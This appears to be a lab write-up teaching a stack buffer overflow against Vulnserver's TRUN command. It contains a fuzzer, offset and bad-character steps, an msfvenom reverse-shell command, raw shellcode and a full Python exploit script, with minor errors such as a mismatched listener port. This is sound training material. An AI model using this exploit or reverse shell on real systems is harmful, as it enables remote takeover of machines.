








## Vulnserver Miniseries - TRUN

---

Hello World! With the goal of starting OSCE soon I wanted to brush up on my exploit development skills and hopefully provide some helpful tutorials for people taking OSCP

I'd heard some good things about Vulnserver before ( https://github.com/stephenbradshaw/vulnserver) so i thought I'd dive straight in.

For this exercises I'll be using immunity debugger with mona.py, msfvenom, boofuzz, pwntools & python3 so make sure you have all these installed before we begin!

Some pro immunity tips before we begin:

Turn of the annoying message about terminating an active process. This will save some time when our exploit code breaks the target. To do this navigate to the Options menu -> Debugging Options -> Security Tab & untick "Warn when terminating active process". 

Keyboard shortcuts:

-  CTRL+F2 will restart the process.
-  The keyboard F9 will run the process.  

### Basic buffer overflow

This section covers a quick refresher on what buffer overflows are and how to take advantage of theme. If you have done OSCP before then you can probably skip this section. 

OWASP defines a buffer overflow as:

 "A buffer overflow condition exists when a program attempts to put more data in a buffer than it can hold or when a program attempts to put data in a memory area past a buffer."

https://owasp.org/www-community/vulnerabilities/Buffer_Overflow

Which sums it up pretty nicely. Essentially we have an arbitrary bucket of memory that we can fill with more data than application expects allowing us to naughty things.

In this case we want to overfill the buffer in such a way to gain control over the execution of the program. We can do this by overwriting the EIP register

The EIP is a register in 32 bit architectures, in 64 bit architectures this is the RIP. It's job is to point the CPU to where the next instruction is. For example if the EIP was set to 0x01020304 the CPU would go to this address and execute the opcode at that address. 

If we can control this, we can get the target application to execute our shellcode, which in turn will give us remote code execution! 

### Identification

Although I knew the service was listening on port 9999 I was curious to see what NMAP says about the service. For this I ran the following NMAP command:

- nmap -p 9999 -Pn 192.168.1.98

This gave the following output:

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-08 22:55 BST
Nmap scan report for DESKTOP-1SHFNBK.lan (192.168.1.98)
Host is up (0.00036s latency).

PORT     STATE SERVICE
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 0.07 seconds

```

Not really much useful but confirms the port is open.

### Fuzzing

To fuzz the service we are going to use Boofuzz, which is a really handy python library for fuzzing applications.

The docs are here if you need some help understanding the methods:

https://boofuzz.readthedocs.io/en/stable/user/static-protocol-definition.html

For fuzzing I used the following template code:

```Python
#!/usr/bin/python3
from boofuzz import *
import argparse

def test_connection(target, logger, session, *args, **kwargs):
    try:
        banner = target.recv(1024)
    except:
        exit(1)

def main(ip,port):
    session = Session(
	sleep_time=1,
        target=Target(
            connection=SocketConnection(ip, port, proto='tcp')
        ),
    )
    s_initialize(name="Request")
    with s_block("exploit"): #Starts a new block for our request
        s_static("TRUN") #s_static tells boofuzz that this value dose not change and to not fuzz it
        s_delim(" ",fuzzable=False)
        s_string("FUZZ",fuzzable=True) #s_string informs boofuzz that this value on the stack can be changed
        s_delim("\r\n",fuzzable=False)

    # Start fuzzing
    session.connect(s_get("Request"), callback=test_connection)
    session.fuzz()


if __name__ == "__main__":
    #Pullin Arguments from the command line
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True, type=int)
    args = parser.parse_args()
    main(args.host,args.port)   

```

This code can definitely be tidied up, the callback function could perform checks to see if we received the banner or not. Additionally for the rest of this miniseries, it might be handy if the "s_string"  was also taken from the command line. However this is probably overkill at this point in time. 

After running this we can see that on the 3rd payload our process crashes:



Looking at our output we can see 5013 'A' Chars crashed the service:

```python
 Test Step: Fuzzing Node 'Request'
[2020-04-10 13:46:52,686]     Info: Sending 5013 bytes...
[2020-04-10 13:46:52,686]     Transmitted 5013 bytes: 54 52 55 4e 20 2f 2e 3a 2f 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  [---SNIP---]
[2020-04-10 13:46:52,688]     Info: Closing target connection...
[2020-04-10 13:46:52,688]     Info: Connection closed.
[2020-04-10 13:46:52,688]   Test Step: Sleep between tests.
[2020-04-10 13:46:52,688]     Info: sleeping for 1.000000 seconds
[2020-04-10 13:46:53,697] Test Case: 3: Request.no-name.3
[2020-04-10 13:46:53,697]     Info: Type: String. Default value: b'FUZZ'. Case 3 of 1441 overall.
[2020-04-10 13:46:53,698]     Info: Opening target connection (192.168.1.98:9999)...
[2020-04-10 13:46:53,698]     Info: Connection opened.
[2020-04-10 13:46:53,699]   Test Step: Callback function
[2020-04-10 13:46:53,699]     Info: Receiving...
[2020-04-10 13:46:58,861]     Received: 
```

Boofuzz produces an SQLite database so If we had been away from the system we could have looked in there for the crashing payload.

To confirm this we need to knock together some exploit code.

### Template Exploit code

For the example I will be using the following template:

```python
#!/usr/bin/python3
import socket
import argparse


def main(ip,port):
    com_socket = tcp_socket(ip,port)  
    #Pull the banner
    banner = com_socket.recv(1024)
    print(banner)
    payload = make_payload()
    print("Sending", len(payload),  "bytes")
    com_socket.send(payload)


def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b"A"*5000
    final_payload = prepend + pattern
    return final_payload


def tcp_socket(ip,port):
    network_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connection_tuple = (ip,port)
    network_socket.connect(connection_tuple)
    return network_socket


if __name__ == "__main__":
    #Pullin Arguments from the command line
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True, type=int)
    args = parser.parse_args()
    main(args.host,args.port) 
```

The script pulls the target hostname and port in from the command line using the argparse module. From this it creates a TCP stream socket for communicating with our target service. Next it pulls in the service banner. Once it receives this it sends our exploit code. There are additional checks I could do to neaten up the code e.g check to make sure the service is alive,etc but I don't think its necessary here.

It was here where I ran in to my first stumbling block. During OSCP I did all of my exploit development in Python2 which has been out of dated for quite a while now. Its a bit hypocritical for a professional pentester to use out dated software so I decided to painfully drag my Python3 knowledge up to standard.

---

Side note, Python3 requires data sent over a socket to have an encoding, in Python2 this was kinda optional/

For example the following is valid Python2 code for confirming our exploit

```python
buffer = "A" * 5000
s.send("TRUN /.:/ " + buffer)

```

In the Python3 example below, note the "b" in front of our data

```python
prepend = b"TRUN /.:/"
pattern = b"A"*5000
final_payload = prepend + pattern
```

----

Running our sample script will crash the service confirming that 5000 bytes does the trick. 

No we have confirmed that 5000 bytes breaks the buffer we can move on to controlling the EIP. 

#### Exploitation

As we can see in the immunity debugger output below, the EIP is being clobbered by AAAA (In hex 41 41 41 41).



To determine where this is within our buffer we need to create a unique byte string. There are a couple easy ways to do this. One of the easiest is to use the pattern_create script within msfvenom. Alternatively the cyclic method within the python pwntools library is another option.  I'll be sticking with the later in this case.

To create a 5000 byte pattern in pwn tools, drop into the python REPL and run the following command:

```python
from pwn import *
cyclic(5000)
```

Unsurprisingly this will give 5000 bytes of output. We can now pop this into the pattern variable within the make_payload method, shown below:

```python
def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b'aaaa[---SNIPPED FOR SANITY ---]bxza'
    final_payload = prepend + pattern
    return final_payload
```

Once we kick this off, the application crashes again. Looking at the output we can see that the EIP was overwrittern with "61616275" shown below:



To find where this is in our buffer we can drop in to the REPL again and run cyclic find on our bytes:

```python
from pwn import *
cyclic_find(0x61616275)
```

To make sure we got the right offset we can once again update our payload method:

```python
def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b"A"*2003
    eip = b"B"*4
    buffer_space = 5000 - len(pattern) - len(eip)
    payload_struct = pattern + eip + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```

This can bee seen below where the EIP has been overwritten by four "B" characters ( Hex 0x42424242)



Next we need to find an op code in the application to jump to our shellcode:

In immunity in the bottom search bar enter:

```
!mona jmp -r ESP
```

The ESP is a special register in 32 bit architectures. It's purpose is to point to the top of the stack at any given time. We want to jump to the top of our stack here because we have just overflown the stack with our shellcode and as a result our code is now at the top of the stack. This also gets around the issues of any leading null bytes in addresses. 

Running the mona command  gives us the following output:



From here we can see that mona has found 9 pointers to the JMP ESP function. Double clicking on the first one takes us to the dump where the opcode was found:



To make use of this address we need to convert the address to little endian format such that the address "\x62\x50\x11\xaf" becomes ""\xaf\x11\x50\x62"

```python
def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b"A"*2003
    eip = b"\xaf\x11\x50\x62"
    buffer_space = 5000 - len(pattern) - len(eip)
    payload_struct = pattern + eip + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```

The next step is to identify if the application has any bad characters.

###  Bad Characters

Bad characters in our shellcode can have unforeseen consequences and will generally mess our day up. 

0x00 is always a bad byte as it represents a null byte. These are used as terminators in C style strings that inform the application the string is finished. As a C programming side note, failing to null terminate a string in C will cause your application to spew out any garbage that happens to be in memory. 

Other typical bad values can include 0x0D & 0x0A. which represent return character & new line respectively. 

Time to see if the TRUN command has any bad characters, to do this wee need an byte string of all possible hex characters. To  do this drop back to our trusty friend the REPL and run the following nasty looking list comprehension:

```python
[(chr(x)) for x in range(256)]
```

Or you can just copy and paste the following string (it's easier & I have already cut out the 0x00 for your convenience):

```python
b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```

Pop the bad characters in like so:

```python
def make_payload():
    prepend = b"TRUN /.:/"
    # offset found using boofuzz
    
    pattern = b"A"*2003
    eip = b"B"*4
    badchars = b'\x01\x02\x03\x04[---SNIP---]\xfe\xff'
    buffer_space = 5000 - len(pattern) - len(eip) - len(badchars)
    payload_struct = pattern + eip + + badchars + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload

```

Running this crashes our process as usual and at this point we can inspect the stack to see if there are any bad bytes:



Here we can see the stack in immunity If there were bad bytes they would be absent from the stack or be garbled.  

Next on to the shellcode!

### Shellcode

At this point we have all the knowledge we need to pop a shell!

For simplicity sake we are going to use msfvenom to generate our shellcode. To do this run the following command ( replacing the LHOST and LPORT with your ip & listening port respectivly)

```python
sudo msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.64 LPORT=5555 -b '\x00' -f c
```

This command tells msfvenom to generate a windows reverse TCP shell without any null bytes.

This will give us the shellcode in Python2 style format. To get this to work in Python3 add 'b' to the front' :

```python
    buf =  b""
    buf += b"\xb8\xe2\x5c\x98\xde\xdb\xcb\xd9\x74\x24\xf4\x5a\x33"
    buf += b"\xc9\xb1\x56\x31\x42\x13\x03\x42\x13\x83\xea\x1e\xbe"
    buf += b"\x6d\x22\x36\xbd\x8e\xdb\xc6\xa2\x07\x3e\xf7\xe2\x7c"
    buf += b"\x4a\xa7\xd2\xf7\x1e\x4b\x98\x5a\x8b\xd8\xec\x72\xbc"
    buf += b"\x69\x5a\xa5\xf3\x6a\xf7\x95\x92\xe8\x0a\xca\x74\xd1"
    buf += b"\xc4\x1f\x74\x16\x38\xed\x24\xcf\x36\x40\xd9\x64\x02"
    buf += b"\x59\x52\x36\x82\xd9\x87\x8e\xa5\xc8\x19\x85\xff\xca"
    buf += b"\x98\x4a\x74\x43\x83\x8f\xb1\x1d\x38\x7b\x4d\x9c\xe8"
    buf += b"\xb2\xae\x33\xd5\x7b\x5d\x4d\x11\xbb\xbe\x38\x6b\xb8"
    buf += b"\x43\x3b\xa8\xc3\x9f\xce\x2b\x63\x6b\x68\x90\x92\xb8"
    buf += b"\xef\x53\x98\x75\x7b\x3b\xbc\x88\xa8\x37\xb8\x01\x4f"
    buf += b"\x98\x49\x51\x74\x3c\x12\x01\x15\x65\xfe\xe4\x2a\x75"
    buf += b"\xa1\x59\x8f\xfd\x4f\x8d\xa2\x5f\x07\x62\x8f\x5f\xd7"
    buf += b"\xec\x98\x2c\xe5\xb3\x32\xbb\x45\x3b\x9d\x3c\xdc\x2b"
    buf += b"\x1e\x92\x66\x3b\xe0\x13\x96\x15\x27\x47\xc6\x0d\x8e"
    buf += b"\xe8\x8d\xcd\x2f\x3d\x3b\xc4\xa7\x7e\x13\xd9\x77\x17"
    buf += b"\x61\xda\x66\xbb\xec\x3c\xd8\x13\xbe\x90\x99\xc3\x7e"
    buf += b"\x41\x72\x0e\x71\xbe\x62\x31\x58\xd7\x09\xde\x34\x8f"
    buf += b"\xa5\x47\x1d\x5b\x57\x87\x88\x21\x57\x03\x38\xd5\x16"
    buf += b"\xe4\x49\xc5\x4f\x93\xb1\x15\x90\x36\xb1\x7f\x94\x90"
    buf += b"\xe6\x17\x96\xc5\xc0\xb7\x69\x20\x53\xbf\x96\xb5\x65"
    buf += b"\xcb\xa1\x23\xc9\xa3\xcd\xa3\xc9\x33\x98\xa9\xc9\x5b"
    buf += b"\x7c\x8a\x9a\x7e\x83\x07\x8f\xd2\x16\xa8\xf9\x87\xb1"
    buf += b"\xc0\x07\xf1\xf6\x4e\xf8\xd4\x84\x89\x06\xaa\xa2\x31"
    buf += b"\x6e\x54\xf3\xc1\x6e\x3e\xf3\x91\x06\xb5\xdc\x1e\xe6"
    buf += b"\x36\xf7\x76\x6e\xbc\x96\x35\x0f\xc1\xb2\x98\x91\xc2"
    buf += b"\x31\x01\x22\xb8\x3a\xb6\xc3\x3d\x53\xd3\xc4\x3d\x5b"
    buf += b"\xe5\xf9\xeb\x62\x93\x3c\x28\xd1\xac\x0b\x0d\x70\x27"
    buf += b"\x73\x01\x82\x62"
```

The final part is to add a small NOP sled (0x90) just to make sure we land in our shellcode without any issues.

Our final payload before running looks like this:

```python
def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b"A"*2003
    eip = b"\xaf\x11\x50\x62"
    buf =  b""
    buf += b"\xb8\xe2\x5c\x98\xde\xdb\xcb\xd9\x74\x24\xf4\x5a\x33"
    buf += b"\xc9\xb1\x56\x31\x42\x13\x03\x42\x13\x83\xea\x1e\xbe"
    buf += b"\x6d\x22\x36\xbd\x8e\xdb\xc6\xa2\x07\x3e\xf7\xe2\x7c"
    buf += b"\x4a\xa7\xd2\xf7\x1e\x4b\x98\x5a\x8b\xd8\xec\x72\xbc"
    buf += b"\x69\x5a\xa5\xf3\x6a\xf7\x95\x92\xe8\x0a\xca\x74\xd1"
    buf += b"\xc4\x1f\x74\x16\x38\xed\x24\xcf\x36\x40\xd9\x64\x02"
    buf += b"\x59\x52\x36\x82\xd9\x87\x8e\xa5\xc8\x19\x85\xff\xca"
    buf += b"\x98\x4a\x74\x43\x83\x8f\xb1\x1d\x38\x7b\x4d\x9c\xe8"
    buf += b"\xb2\xae\x33\xd5\x7b\x5d\x4d\x11\xbb\xbe\x38\x6b\xb8"
    buf += b"\x43\x3b\xa8\xc3\x9f\xce\x2b\x63\x6b\x68\x90\x92\xb8"
    buf += b"\xef\x53\x98\x75\x7b\x3b\xbc\x88\xa8\x37\xb8\x01\x4f"
    buf += b"\x98\x49\x51\x74\x3c\x12\x01\x15\x65\xfe\xe4\x2a\x75"
    buf += b"\xa1\x59\x8f\xfd\x4f\x8d\xa2\x5f\x07\x62\x8f\x5f\xd7"
    buf += b"\xec\x98\x2c\xe5\xb3\x32\xbb\x45\x3b\x9d\x3c\xdc\x2b"
    buf += b"\x1e\x92\x66\x3b\xe0\x13\x96\x15\x27\x47\xc6\x0d\x8e"
    buf += b"\xe8\x8d\xcd\x2f\x3d\x3b\xc4\xa7\x7e\x13\xd9\x77\x17"
    buf += b"\x61\xda\x66\xbb\xec\x3c\xd8\x13\xbe\x90\x99\xc3\x7e"
    buf += b"\x41\x72\x0e\x71\xbe\x62\x31\x58\xd7\x09\xde\x34\x8f"
    buf += b"\xa5\x47\x1d\x5b\x57\x87\x88\x21\x57\x03\x38\xd5\x16"
    buf += b"\xe4\x49\xc5\x4f\x93\xb1\x15\x90\x36\xb1\x7f\x94\x90"
    buf += b"\xe6\x17\x96\xc5\xc0\xb7\x69\x20\x53\xbf\x96\xb5\x65"
    buf += b"\xcb\xa1\x23\xc9\xa3\xcd\xa3\xc9\x33\x98\xa9\xc9\x5b"
    buf += b"\x7c\x8a\x9a\x7e\x83\x07\x8f\xd2\x16\xa8\xf9\x87\xb1"
    buf += b"\xc0\x07\xf1\xf6\x4e\xf8\xd4\x84\x89\x06\xaa\xa2\x31"
    buf += b"\x6e\x54\xf3\xc1\x6e\x3e\xf3\x91\x06\xb5\xdc\x1e\xe6"
    buf += b"\x36\xf7\x76\x6e\xbc\x96\x35\x0f\xc1\xb2\x98\x91\xc2"
    buf += b"\x31\x01\x22\xb8\x3a\xb6\xc3\x3d\x53\xd3\xc4\x3d\x5b"
    buf += b"\xe5\xf9\xeb\x62\x93\x3c\x28\xd1\xac\x0b\x0d\x70\x27"
    buf += b"\x73\x01\x82\x62"
    nopsled = b'\x90'*100
    buffer_space = 5000 - len(pattern) - len(eip) - len(nopsled) - len(buf)
    payload_struct = pattern + eip +  nopsled + buf + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```

Finally time to run our exploit!

Make sure metasploit is listening on port 4444. This can be done by running the msfconsole exploit/multi/handler and setting the LHOST to your IP and LPORT equal to 4444.

Finally on running the exploit we get our shell coming back::



### Conclusion

I hope you find this tutorial somewhat useful. I am aiming to get one of these miniseries done once away with the difficulty ramping up as we progress.

Turns out my Python3 is not as bad as I thought it was, just a few stumbling blocks

The full source code for this can be found below (make sure to change the shellcode if you run it!):

https://github.com/Cyber-F0x/vulnserver-writeup/tree/master/TRUN

Till next time!

- Cyber-F0x